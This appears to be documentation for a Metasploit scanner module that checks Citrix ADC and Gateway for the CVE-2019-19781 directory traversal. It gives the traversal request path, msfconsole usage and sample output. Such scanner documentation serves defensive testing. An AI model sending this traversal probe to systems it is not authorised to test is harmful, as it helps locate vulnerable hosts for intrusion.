 ##  Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. The vulnerability, tracked as CVE-2019-19781, allows for directory traversal. If exploited, it could allow an unauthenticated attacker to perform arbitrary code execution.

Because vulnerable servers allow for directory traversal, they will accept the request `GET /vpn/../vpns/` and  process it as a request for `GET /vpns/`, a directory that contains PERL scripts that can be targeted to allow for limited file writing on the vulnerable host.

This module checks if a target server is vulnerable by issuing an HTTP GET request for `/vpn/../vpns/cfg/smb.conf`and then checking the response for `global`since this configuration file should contain global variables. If ``global``is found, the server is vulnerable to CVE-2019-19781.

## Verification Steps

1. Install the module as usual

2. Start msfconsole

3. Do: `use auxiliary/scanner/http/citrix_directory_traversal`

4.  Do: `set RHOSTS [IP]`

5. Do: `run`


## Options

1.  `Proxies`  . This option is not set by default.
2.  `RPORT`  . The default setting is  `80`. To use:  `set RPORT [PORT]`
3.  `SSL`  . The default setting is  `false`.
4.  `THREADS`  . The default setting is  `1`.
5.  `VHOST`  . This option is not set by default.

## Scenarios

```
msf5 > use auxiliary/scanner/http/citrix_directory_traversal

msf5 auxiliary(scanner/http/citrix_directory_traversal) > set RHOSTS xxx.xxx.xxx.xxx

RHOSTS => xxx.xxx.xxx.xxx

msf5 auxiliary(scanner/http/citrix_directory_traversal) > run

[*] Found xxx.xxx.xxx.xxx/vpn/../vpns/cfg/smb.conf.
[+] The target is vulnerable to CVE-2019-19781.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

##  References

1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19781>

2. <https://support.citrix.com/article/CTX267027>